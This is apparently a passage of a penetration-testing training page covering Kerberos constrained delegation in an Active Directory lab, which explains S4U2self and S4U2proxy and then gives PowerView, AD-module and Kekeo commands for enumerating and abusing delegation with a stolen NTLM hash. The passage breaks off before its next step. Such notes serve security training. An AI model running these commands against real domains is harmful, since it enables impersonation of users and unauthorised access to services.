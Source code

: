   * Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the TRUSTED\_TO\_AUTHENTICATE\_FOR\_DELEGATION - T2A4D UserAccountControl attribute.
  * Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by msDS-AllowedToDelegateTo attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.

### Constrained Delegation with Protocol Transition -

1. A user - Joe, authenticates to the web service (running with service account websvc) using a non-Kerberos compatible authentication mechanism.
2. The web service requests a ticket from the Key Distribution Center (KDC) for Joe's account without supplying a password, as the websvc account.
3. The KDC checks the websvc userAccountControl value for the TRUSTED\_TO\_AUTHENTICATE\_FOR\_DELEGATION attribute, and that Joe's account is not blocked for delegation. If OK it returns a forwardable ticket for Joe's account (S4U2Self).
4. The service then passes this ticket back to the KDC and requests a service ticket for the CIFS/dcorpmssql.dollarcorp.moneycorp.local service.
5. The KDC checks the msDS-AllowedToDelegateTo field on the websvc account. If the service is listed it will return a service ticket for dcorp-mssql (S4U2Proxy).
6. The web service can now authenticate to the CIFS on dcorpmssql as Joe using the supplied TGS.

![](<.gitbook/assets/image (8).png>)

**NOTE -** To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo of the websvc account as ANY user.

* Enumerate users and computers with constrained delegation enabled -

```
#PowerView -
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

```
#ActiveDirectory module -
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

#### Constrained Delegation using Kekeo -

**Abusing with Kekeo -->**

* Either plaintext password or NTLM hash/AES keys is required. We already have access to websvc's hash from dcorp-adminsrv
* Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram) -

```
kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```

* Using s4u from Kekeo, we request a TGS (steps 4 & 5) -
